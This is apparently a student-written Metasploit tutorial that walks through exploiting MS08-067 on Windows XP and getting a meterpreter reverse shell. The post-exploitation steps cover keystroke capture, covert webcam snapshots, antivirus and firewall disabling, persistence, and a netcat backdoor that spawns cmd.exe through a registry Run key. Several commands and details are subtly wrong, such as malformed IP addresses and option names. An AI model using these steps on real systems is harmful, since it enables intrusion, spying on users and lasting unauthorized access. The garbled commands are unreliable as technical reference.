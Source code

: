 
###Metasploit Instructions
##Introduction
Metasploit is a software tool used for using exploit to test the vulnerability of a computer or server and uses the exploits to gain access to things that had restricted access. This helps computer users understand how defenseless their computer is and important it is that they should fix it. It also allows the users to understand the importance of security. The needed knowledge and skills that come with Metasploit is the ability to use nmap and exploit scanners because the Metasploit doesn’t actually scan for vulnerabilities instead it can only exploit. Without the nmap or exploit scanners you cannot actually use Metasploit because you will not know what exploit to actually use. One should also be able to use and understand some sort of command line in linux or Windows. The necessary tools for Metasploit are a vulnerability scanner of some sort to find out what exploits you need.  Another virtual machine or a computer that belongs to the Metasploit user is also necessary since it is illegal to use Metasploit to exploit and gain access to computers that they are not allowed to access. One must download and install Metasploit.  The steps that I will cover in this are the ability to use the Exploit database and find the exploit that is needed, I will move to how to use the exploit and how to execute said exploit and lastly I will cover how to make use of said exploit by either metepreter or command line.
##Exploiting
If you were to find your exploit from a using an exploit scanners you can skip this step. Otherwise use nmap to find out what type of OS the system you are trying to exploit uses, and see if it is unpatched version of the OS.  Once you have found out what OS it is you should look up what exploits can be used for this system’s vulnerability. For example say you are using windows XP on your computer and port 445 is open.  You could google different exploits that are used for windows XP service that are available in Metasploit.  We find that there is an exploit called MS08-67 for windows. If you were using an exploit scanner it would tell you vulnerability on that system and you wouldn’t need to google what it is.  Instead one could find out much about the different exploits from info provided by the scanner. Once you find out what the name of the exploit is you now can use Metasploit. Firstly you want to use the Metasploit console and enter the line `use exploit/ `and because we are using windows we will use `use exploit/windows/`
![alt text](https://github.com/willthegreatest/instructions/blob/master/images/show.PNG)

After this we need to know what kind of exploit this is luckily though we already know what kind of exploit this from the google search or the exploit scan. Once we get this down we can now use tab to list the number of exploits that you that windows has. But since we already know which exploit we are going to use we use the command `use exploit/windows/smb/ms08_067_netapi`.
After getting to the exploit we need there are multiple things we must set up before we can use the exploit against the vulnerable computer. To do this we use the show options command in Metasploit which will give us three options for the MS08-67 exploit, but we will only be using the first two.  The first option is RHOST which is the address of the host. We use the command `set RHOST 127.0.0.0.1`with the correct IP address of the user you are using. The second option is PHOST with this we must use an open port that the target computer has open. We set this to port 445 because that is the port that is used for this type of exploit. One would have figured this out from previous steps such as the nmapping or exploit scan. 
![alt text](https://github.com/willthegreatest/instructions/blob/master/images/optionswithset.PNG)

##Payload
The next step in the process is to set the payload. With this we use the show payload command which shows every type of payload we can use for this exploit. For this one we will use the metepreter reverse tcp . This allows us to use the metepreter function of Metasploit which has many different tools and built in scripts. So to do this we the command “set  `payload windows/metepreter/reverse-tcp`. This step sets the payload to activate we you use the run command. Before you can run it you must set the properties for the payload. For this we use show payload options and one can see that there is two different options. The first option is LHOST which we want to set to your ip address. To change this we use the `set LHOST 127.0.0.1.`. The second option is the port you want to use to connect to the exploited machine.  To change this we use `set LPORT 6666`.
![alt text](https://github.com/willthegreatest/instructions/blob/master/images/showpayload.PNG)

After this is all done and it done correctly we should be able to run the exploit against the vulnerable. With the command `exploit`.
![alt text](https://github.com/willthegreatest/instructions/blob/master/images/exploit.PNG)

##Post Exploitation
If everything is working correctly the exploit should work and the payload should drop. We should have access to the metepreter. At this point there a few things we can and should do. First thing we want to do is check the system we are running on. There are multiple things you can do now with this now which I will split into multiple sections.
###Gaining Information
The first section will be about getting information about the user from metepreter.  The first thing we can run is the sysinfo command to get the system information of the computer that you are running. This will be extremely helpful if you were unaware of how patched the XP machine is. The next thing we can do is use a keylogger to get passwords or personal information about the user. We do this by using the command `keyscan` into the metepreter. With this it will scan for keystrokes and when we want to see what the user has typed in we use the `key_dump` to see what the user has typed in. Another thing you can do on the machine is see the user screen. This is done through the command `getgui –u username –p password`. This will enable rdp if it has been disabled and will allow you to get access to the screen of the computer. The last thing I will include in getting information about the user is the webcam command. To see if the computer has any webcams we use the command `webcam_list` and if there is one we can use the command `webcam_snap` which will take a picture of the person using the computer.
###Mataining Access
The next section I will talk about is how to maintain access to the computer. The next thing you should do is use the metepreter persistence which will allow you to have access to the system under certain situations.  To do this we use the command `run persistence –X –i  5 –p 6665 –r  127.0.0.1`. The –X will connect you to the computer whenever you have metepreter open and the system is booted up. The –i is the intervals that it will try to connect to the host. The –p is for the port that you will be connecting to and the –r is used for your ip address. This will allow you connect the infected machine even after the user has shut down when the user turns it back on instead of kicking you off for good. Let also say we want to make sure we don’t get kicked off the machine by an antivirus, we could run the command `killav` which can disable many anti viruses. We can also use the command `run getcountermeasures` to see if we can disable firewalls of the infected computer. The last thing you might want to do is install a backdoor to get to the computer if the persistence command fails. This can be done with the by first uploading netcat to the remote system using the command `upload /usr/share/windows-binaries/nc.exe C:\windows\system32` which will put the netcat executable onto the vulnable machine. The next thing we do is to allow it to run at every time the computer starts up so we use the command `reg setval -k HKLM\software\microsoft\windows\currentversion\run -v nc -d 'C:\windows\system32\nc.exe -Ldp 455 -e cmd.exe`. This will make the netcat start everytime with port 455 open.  The last thing we need to is make sure the firewall will enable the netcat connection to go through ( which could be avoided if you disabled the firewall with getcountermeasures). We do this by using the command `netsh firewall add portopening TCP 455 "Service Firewall" ENABLE ALL` which will open up the port to be accessed through the firewall. With the backdoor installed you no longer need to use metesploit to log into the vulnerable machine. Instead you need only to use `nc -v 127.0.0.01 455` in your commandline to connect to the machine that you have infected.
##Conclusion
While this is only one of the exploits that you can to gain access to computer the purpose of the exploit is many of things taught in these instructions can be substituted for other exploits or scripts. So even though it doesn’t cover all of the types of instructions many things can be learned from just one example of an exploit. I choose the MS08-67 exploit because it was easy and allows for remote access while some exploits do not. Hopefully these instructions will help you understand Metasploit better and how to be safer and more proficient with computers.
